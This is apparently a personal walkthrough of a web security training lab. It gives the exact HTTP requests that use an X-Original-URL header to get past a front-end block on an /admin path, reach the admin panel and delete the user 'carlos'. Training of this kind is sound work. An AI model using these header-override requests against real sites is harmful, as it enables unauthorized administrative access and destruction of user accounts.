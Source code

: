 ![[Pasted image 20220513202826.png]]

### URL-based access control can be circumvented
```bash

# This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

# To solve the lab, access the admin panel and delete the user carlos. 

Go to:

https://ac791f081eb8a033c0a92e6d00c8000f.web-security-academy.net/admin

"Access denied"

Go to: HTTP history
Find:

GET /admin HTTP/1.1

Send to repeater

Change 

GET /admin HTTP/1.1

To

GET / HTTP/1.1

Insert (make sure it is above 'Connection: close' ): 

X-Original-URL: /admin

Note the response:

HTTP/1.1 200 OK

Delete the username "carlos"

Upon failure
Go to: HTTP history
Find:

GET /admin/delete?username=carlos HTTP/1.1

Send to repeater

Change:

GET /admin/delete?username=carlos HTTP/1.1

To

GET /?username=carlos HTTP/1.1

Insert (make sure it is above 'Connection: close' ):

X-Original-URL: /admin/delete

After sending this request the username "carlos" should be deleted
```